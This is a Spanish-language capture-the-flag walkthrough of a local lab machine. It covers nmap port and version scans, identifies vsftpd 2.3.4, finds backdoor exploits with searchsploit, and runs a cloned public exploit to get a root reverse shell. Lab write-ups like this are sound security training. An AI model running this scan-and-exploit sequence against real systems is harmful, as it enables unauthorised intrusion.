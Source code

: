 # FirstHacking

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 21, vamos a comprobar las versiones y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21`: Escaneo de los puertos 21 (FTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
  PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
Vemos que la versión de ftp es vsftpd 2.3.4, comprobamos en searchsploit si es vulnerable y vemos que si hay exploits que podríamos utilizar.
```bash
❯ searchsploit vsftpd 2.3.4
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                       | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
En este caso yo voy a utilizar un exploit que encontramos en [GITHUB](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit). Seguimos las instrucción que nos indican en la página y nos crea un reverse shell como usuario root de la máquina.
´´´bash
sudo python3 -m pip install pwntools
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
´´´
´´´bash
python3 exploit.py 172.17.0.2
´´´



